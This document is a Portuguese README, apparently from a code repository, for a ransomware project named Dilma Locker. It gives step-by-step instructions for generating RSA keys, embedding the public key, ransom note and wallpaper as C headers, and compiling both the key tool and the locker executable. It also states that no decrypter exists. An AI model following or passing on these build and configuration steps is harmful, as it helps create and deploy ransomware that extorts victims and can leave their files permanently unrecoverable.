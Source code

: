 ﻿# Ransomware Dilma Locker

## Versão
1.4 (22/07/2017)

## Estado do projeto
Abandonado (atingimos a meta e não vamos dobrar a meta).

## Configuração

### Gerando um par de chaves RSA

```bash
master.exe -g
```

### Alterando a chave mestre, wallpaper e nota de resgate

Converte o arquivo usando o master.exe:
```bash
master.exe -h public.dlk
```

Ele vai gerar um arquivo .h parecido com esse:

```c
//arquivo gerado automaticamente
const BYTE data6b657973[276] = {
	0x06, 0x02, 0x00, 0x00, 0x00, 0xa4, 0x00, 0x00, 0x52, 0x53, 0x41, 0x31, 0x00, 0x08, 0x00, 0x00, 
	0x01, 0x00, 0x01, 0x00, 0x57, 0xe2, 0xc6, 0xa0, 0x7f, 0x7a, 0x9f, 0xcd, 0xd9, 0xd4, 0x09, 0x51, 
	0x8c, 0x7e, 0x94, 0x1d, 0xe7, 0xb5, 0xa1, 0x68, 0x0a, 0x0d, 0xf4, 0xbc, 0x7b, 0x4b, 0x3f, 0x4c, 
	0x92, 0xbf, 0xaa, 0xd6, 0xf8, 0x07, 0xfd, 0xe7, 0x6b, 0x1e, 0x28, 0xb0, 0xbc, 0x7a, 0xe9, 0x77, 
	0x24, 0x1e, 0x60, 0x1f, 0x36, 0xe8, 0x87, 0x99, 0x57, 0x23, 0xb1, 0x8c, 0x56, 0xde, 0x72, 0xc7, 
	0xa1, 0xd9, 0x5a, 0xdb, 0x5e, 0xd4, 0x08, 0x6c, 0xb1, 0xdf, 0xe3, 0xbb, 0x67, 0x52, 0x80, 0xb7, 
	0xaf, 0x05, 0x4e, 0x8f, 0x95, 0xf5, 0x50, 0x53, 0xce, 0xc6, 0x56, 0x4d, 0x40, 0x8d, 0x7f, 0xed, 
	0xc3, 0xd1, 0x2b, 0xbe, 0x01, 0x5a, 0xe8, 0x02, 0xca, 0x33, 0xe7, 0xa8, 0x68, 0x0d, 0x91, 0xcb, 
	0xa0, 0x74, 0x88, 0x92, 0x36, 0x03, 0xf9, 0x9b, 0xf8, 0xef, 0x19, 0xbd, 0x61, 0x84, 0xa0, 0x44, 
	0xde, 0x2d, 0xb8, 0x69, 0x8f, 0x6e, 0xe3, 0x2a, 0x79, 0x1f, 0x6b, 0xdc, 0x92, 0x0c, 0x46, 0x08, 
	0xcf, 0xaf, 0xad, 0x71, 0x64, 0x99, 0xee, 0x85, 0x29, 0xc3, 0x4c, 0xe7, 0xcf, 0x32, 0x0e, 0xdf, 
	0x84, 0x15, 0x40, 0x44, 0xa8, 0x6f, 0x19, 0x67, 0xe7, 0xba, 0x0c, 0xef, 0x96, 0x7b, 0x05, 0x10, 
	0x07, 0xa0, 0xa4, 0x73, 0xb3, 0xe7, 0xd6, 0xca, 0x57, 0xb6, 0x1c, 0xdd, 0xdb, 0x9a, 0xfa, 0xe5, 
	0xf3, 0xc8, 0x67, 0xa5, 0x45, 0x84, 0xe0, 0x58, 0x21, 0xa2, 0xb9, 0x85, 0x4d, 0x0a, 0xab, 0x2d, 
	0x4a, 0xa2, 0x81, 0x10, 0xf5, 0x84, 0x5a, 0x25, 0x12, 0x18, 0x92, 0x22, 0x9d, 0xa4, 0x8e, 0x0f, 
	0xa2, 0x5e, 0x49, 0x13, 0x8d, 0xd1, 0xc8, 0xaa, 0xc5, 0x4b, 0x7d, 0x59, 0x5e, 0xf3, 0xdf, 0x7a, 
	0x86, 0xad, 0xec, 0x58, 0x20, 0xda, 0x6f, 0x5b, 0xde, 0x8c, 0x7c, 0xc6, 0x67, 0xc7, 0x27, 0x41, 
	0xc8, 0x2b, 0x1f, 0xb4};

DWORD size6b657973 = 276;
```

Coloque esse arquivo dentro de src/header/ e modifique o config.h adicionando um #include

No dilma.c troque as seguintes variáveis pelas variáveis geradas no header:

```txt
data6b657973 -> chave publica
size6b657973 -> tamanho da chave publica

data6e6f7461 -> nota de resgate
size6e6f7461 -> tamanho da nota de resgate

data6261636b -> wallpaper
size6261636b -> tamanho do wallpaper
```

## Compilação
Baixe o [msys32](https://www.msys2.org) no site oficial.

#### Atualize os repositórios:

```bash
pacman -Syu
``` 

#### Instale o compilador:

```bash
pacman -S mingw-w64-i686-toolchain
```

#### Compilação do master.exe

```bash
gcc master.c -o ../bin/master.exe --std=c18 -Os -O1 -Wall -Wextra && strip --strip-all --discard-all ../bin/master.exe
```

#### Compilação do Dilma Locker:

```bash
gcc dilma.c -o ../bin/dilma.exe --std=c18 -lpthread -lshlwapi -static -mwindows -Os -O1 -Wall -Wextra && strip --strip-all --discard-all ../bin/dilma.exe

```

## Sobre
1.0 -> versão beta, tinha mais bugs que os sites do governo.
  * Foi usado RC4 ao invés de AES.

1.1 -> segunda versão, corrigido alguns bugs mas ainda faltava algo
  * Mudado a criptografia de RC4 para AES 256 bits.

1.4 -> terceira versão, reescrita do zero e corrigido alguns bugs. Foi lançada um mês após a primeira versão.
  * Refeito para deixar o código fonte mais bonito.

## Dever de casa
Perdemos o código do decrypter, então você terá que coda-lo.

## Contato

NULL

Pedidos
-------

**Faça bom uso deste programa, não nos responsabilizamos pelo uso inadequado deste conteúdo.**

**Mc Hackudão faz uma música pra nois ae <3!**
